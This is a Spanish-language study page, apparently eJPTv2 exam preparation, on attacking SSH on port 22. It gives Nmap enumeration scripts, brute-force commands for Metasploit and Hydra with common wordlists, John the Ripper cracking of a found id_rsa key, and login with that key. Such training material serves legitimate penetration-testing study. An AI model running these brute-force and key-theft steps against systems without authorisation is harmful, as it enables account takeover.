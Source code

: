 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# Puerto 22 – SSH (Secure Shell) 🔐💻

Es el puerto estándar para SSH, un protocolo que permite acceso remoto seguro a sistemas.
SSH cifra la comunicación, evitando que la información sea interceptada o modificada, y es clave para administración remota y transferencias seguras.

## 🔍 Reconocimiento del Puerto 22 con Nmap

Para identificar los scripts disponibles en Nmap para el reconocimiento del puerto 22, podemos utilizar el siguiente oneliner:

```bash
ls -lah /usr/share/nmap/scripts | grep "ssh-*" # Ver los scripts de nmap para el servicio ssh
```

A continuación, utilizaremos los scripts que mejor se adapten a nuestros objetivos. También existe la opción de ejecutar todos los scripts disponibles, aunque esto puede ralentizar significativamente el proceso de escaneo.

```bash
nmap -p22 <ip_victima> -sCV # Script por defecto de nmap para ver servicio y versión.
nmap -p22 <ip_victima> --script ssh2-enum-algos # Recuperar algoritmos soportados 
nmap -p22 <ip_victima> --script ssh-hostkey --script-args ssh_hostkey=full # Recuperar keys debiles 
nmap -p22 <ip_victima> --script ssh-auth-methods --script-args="ssh.user=root" # Revisar metodos de autenticarnos
```

## 💥Realizar fuerza bruta al servicio SSH

Para llevar a cabo un ataque de fuerza bruta contra el servicio SSH, utilizaremos dos herramientas distintas: Metasploit y Hydra.

## Fuerza Bruta al Servicio SSH con Metasploit:

```bash
msfconsole -q # Abrimos metasploit en modo silencioso.
use auxiliary/scanner/ssh/ssh_login # Cargar el módulo de fuerza bruta SSH.
set RHOSTS <ip_victima>
set USERNAME <username> # Para probar un solo usuario.
set USER_FILE <ruta_diccionario_usernames.txt> # Para múltiples usuarios.
set PASS_FILE <ruta_diccionario_contraseñas.txt> # Ruta del diccionario.
set VERBOSE true # Para ver como se acontece el ataque en tiempo real.
set STOP_ON_SUCESS true # Se detiene cuando finaliza.
set KEY_PATH /ruta/a/clave_privada # Intentar acceso con claves privadas SSH.
set THREADS 5 # Definir número de intentos simultáneos (para evitar bloqueos).
exploit # Iniciar el ataque de fuerza bruta.

[+] Success: 'admin:admin123 - Logged in! 
# Mensaje que nos saldría si encontramos unas credenciales válidas.
```

Los diccionarios más usados para este examen son:

```bash
1. /usr/share/wordlists/metasploit-framwork/common_passwords.txt
2. /usr/share/wordlists/metasploit-framwork/common_users.txt
3. /usr/share/wordlists/rockyou.txt
```

##  Realizar fuerza bruta al servicio SSH con Hydra

```bash
hydra -l '<username>' -P <ruta_diccionario.txt> ssh://<ip_target> -t <cantidad_hilos> -F
# Con la flags -F le indicamos que detenga el ataque cuando encuentre una combinación válida.
```

Una vez que hayamos obtenido credenciales válidas utilizando alguna de las herramientas mencionadas, podremos acceder al servicio SSH con el siguiente comando:

```bash
ssh nombre_usuario@<ip_victima>
```

---


## ¿Qué hacer si encontramos un archivo id_rsa?
Si durante una auditoría de seguridad encontramos un archivo id_rsa en algún servicio, como FTP o dentro de un directorio tras un análisis de fuzzing web, es posible que no sea necesario conocer la contraseña de un usuario específico. En su lugar, podríamos acceder al servicio utilizando dicha clave privada.


## Crackeo de Hash SSH con John The Ripper:

```bash
ssh2john id_rsa > id_rsa.hash # Convertimos la clave privada a hash.
john --wordlist=<ruta_diccionario> id_rsa.hash # Le indicamos el diccionario y el hash.
john --show id_rsa.hash # Ver la contraseña crackeada (si lo hemos conseguido)
```

Si la clave privada está protegida, John The Ripper mostrará la contraseña una vez la encuentre. Esta contraseña es necesaria para usar la clave privada al conectarse por SSH.

## Cómo conectarnos utilizando la clave id_rsa

Una vez que tengamos acceso al archivo id_rsa, debemos seguir estos pasos:

- Visualizar el contenido: Usamos el comando cat para ver el contenido del archivo y lo copiamos.

- Crear el archivo en nuestra máquina atacante: En nuestra máquina, creamos un archivo llamado id_rsa y pegamos el contenido copiado.

- Asignar los permisos correctos: Para que la clave sea utilizada correctamente, establecemos los permisos adecuados con el siguiente comando:

```bash
chmod 600 id_rsa # La clave id_rsa necesita estos permisos para poder acceder a través de ella.
```

## Iniciar sesión con la clave id_rsa

Para autenticarnos en el servicio SSH utilizando la clave privada id_rsa, ejecutamos el siguiente comando:

```bash
sudo ssh -i id_rsa <username>@$<ip_target> # Colocaremos el usuario y la ip que corresponda.
```

---


<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>